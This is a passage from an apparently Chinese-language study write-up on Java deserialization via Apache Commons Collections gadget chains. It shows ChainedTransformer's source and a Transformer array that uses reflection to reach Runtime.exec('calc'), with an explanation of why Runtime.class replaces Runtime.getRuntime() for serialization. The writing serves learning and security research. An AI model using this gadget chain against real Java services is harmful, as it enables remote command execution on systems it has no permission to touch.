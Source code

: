 ### ChainedTransformer

实例化这个类需要传入`Transformer`的数组，调用这个类的`transform`方法就会遍历数组中每个元素的`transform`方法，每次`transform`方法返回的对象会作为下一个`transform`方法的输入

```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}

public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

### 合并

现在我们将上面三个类串起来，举个执行命令的简单例子，创建一个`Transformer`数组，将Runtime对象传入`ConstantTransformer`作为第一个元素，通过`InvokerTransformer`调用`Runtime`实例的`exec`方法放在第二个元素，然后将`Transformer`数组传入`ChainedTransformer`构造方法，最后调用其`transform`方法就可以触发命令。

![image-20220305230623599](java反序列化之CC链1-7学习/image-20220305230623599.png)

其实`chainedTransformer`调用过程和`object.xxx().yyy().zzz()`是一样的，进一步将上面`Runtime.getRuntime()`改为反射的写法

为什么Runtime.getRuntime()需要进一步修改为反射的写法？

> Java中不是所有对象都支持序列化，待序列化的对象和所有它使用的内部属性对象，必须都实现了 java.io.Serializable 接口。而我们最早传给ConstantTransformer的是Runtime.getRuntime() ，Runtime类是没有实现 java.io.Serializable 接口的，所以不允许被序列化。
>
>  Runtime.getRuntime() 换成了 Runtime.class ，前者是一个java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所以可以被序列化。

```java
Transformer[] transformers = {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{0, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
chainedTransformer.transform(null);
```
